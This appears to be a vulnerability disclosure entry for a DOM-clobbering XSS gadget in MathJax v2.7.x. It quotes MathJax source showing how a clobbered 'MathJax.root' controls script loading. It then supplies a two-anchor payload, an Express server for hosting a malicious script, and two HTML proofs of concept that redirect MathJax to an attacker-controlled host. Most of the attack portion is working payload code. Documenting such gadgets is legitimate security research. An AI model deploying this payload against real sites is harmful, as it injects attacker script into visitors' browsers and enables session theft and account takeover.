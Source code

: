 ## MathJax

### Meta

+ Library: MathJax
+ Stars: 10.1K
+ Version: v2.7.x
+ Fingerprint: `MathJax.version == "2.7.2"`
+ Payload: ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ CVE: N/A
+ Status: Accepted
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdn.jsdelivr.net/npm/mathjax@2/MathJax.js`
+ `https://www.mathjax.org/MathJax-v2-7-9-available/`


### Vulnerable Code Snippet

```javascript
if (document.getElementById && document.childNodes && document.createElement) {
    if (!(window.MathJax && MathJax.Hub)) {
        if (window.MathJax) {
            window.MathJax = {
                AuthorConfig: window.MathJax
            }
        } else {
            window.MathJax = {}
        }
```
```javascript
MathJax.Hub.Startup = {
    script: "",
    queue: MathJax.Callback.Queue(),
    signal: MathJax.Callback.Signal("Startup"),
    params: {},
    Config: function() {
        this.queue.Push(["Post", this.signal, "Begin Config"]);
        if (MathJax.AuthorConfig && MathJax.AuthorConfig.root) {
            MathJax.Ajax.config.root = MathJax.AuthorConfig.root
        }
```
```javascript
fileURL: function(j) {
  var i;
  while ((i = j.match(/^\[([-._a-z0-9]+)\]/i)) && b.hasOwnProperty(i[1])) {
      j = (b[i[1]] || this.config.root) + j.substr(i[1].length + 2) // Loading MathJax.AuthorConfig.root and type coercice to String
  }
  return j
}
```
```javascript
Load: function(k, m) {
  m = a.Callback(m);
  var l;
  if (k instanceof Object) {
      for (var j in k) {
          if (k.hasOwnProperty(j)) {
              l = j.toUpperCase();
              k = k[j]
          }
      }
  } else {
      l = k.split(/\./).pop().toUpperCase()
  }
  k = this.fileURL(k);
  if (this.loading[k]) {
      this.addHook(k, m)
  } else {
      this.head = h(this.head);
      if (this.loader[l]) {
          this.loader[l].call(this, k, m) // Calls loader['JS'] below

```

```javascript
loader: {
  JS: function(k, m) {
      var j = this.fileName(k);
      var i = document.createElement("script");
      var l = a.Callback(["loadTimeout", this, k]);
      this.loading[k] = {
          callback: m,
          timeout: setTimeout(l, this.timeout),
          status: this.STATUS.OK,
          script: i
      };
      this.loading[k].message = a.Message.File(j);
      i.onerror = l;
      i.type = "text/javascript";
      i.src = k + this.fileRev(j);
      this.head.appendChild(i)
  }
```

## PoC

Please note that for the following proof of concept, you will need to replace `xxx.xxx.xxx` with your own server address to host the malicious script and configure the URL to route `//config/TeX-AMS-MML_HTMLorMML.js`.
```
const express = require('express');
const path = require('path');

const app = express();
const port = 3000; 

// Middleware to normalize double slashes in the URL path
app.use((req, res, next) => {
  req.url = req.url.replace(/\/\//g, '/');
  next();
});

app.get('/config/TeX-AMS-MML_HTMLorMML.js', (req, res) => {
  const filePath = path.join(__dirname, 'poc', 'TeX-AMS-MML_HTMLorMML.js');
  res.sendFile(filePath);
});

// Start the server
app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```


### PoC

```html
<!--Library-->
<script>
(function() {
        var script = document.createElement("script");
        script.type = "text/javascript";
        script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
        document.getElementsByTagName("head")[0].appendChild(script);
    }
)();
</script>
<!--Library-->

<!--Payload-->
<a id="MathJax"></a>
<a id="MathJax" name="root" href="http://localhost:9999"></a>
<!--Payload-->
```

### PoC #2
```html
<a id="MathJax"></a>
<a id="MathJax" name="root" href="http://xxx.xxx.xxx"></a>

<script>
	(function() {
		  var script = document.createElement("script");
		  script.type = "text/javascript";
		  script.src = "https://mathjax.rstudio.com/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML";
		  document.getElementsByTagName("head")[0].appendChild(script);
		}
	)();
</script>
```
